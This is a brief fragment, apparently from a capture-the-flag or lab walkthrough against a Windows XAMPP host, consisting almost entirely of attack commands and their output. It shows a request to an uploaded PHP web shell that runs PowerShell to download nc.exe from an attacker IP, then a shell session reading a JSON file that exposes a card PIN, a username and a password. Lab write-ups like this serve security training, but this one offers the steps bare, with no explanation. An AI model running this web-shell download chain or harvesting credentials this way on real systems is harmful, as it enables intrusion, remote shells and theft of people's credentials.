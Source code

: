 ```http

/portal/uploads/a.php?cmd=powershell+Invoke-RestMethod+-Uri+http%3a//10.10.14.9/nc.exe+-OutFile+nc64.exe

```



C:\Users\www-data\Desktop\xampp\htdocs\portal\pizzaDeliveryUserData> cat juliette.json

```json

cat juliette.json
{
        "pizza" : "margherita",
        "size" : "large",
        "drink" : "water",
        "card" : "VISA",
        "PIN" : "9890",
        "alternate" : {
                "username" : "juliette",
                "password" : "jUli901./())!",
        }
}


``` 
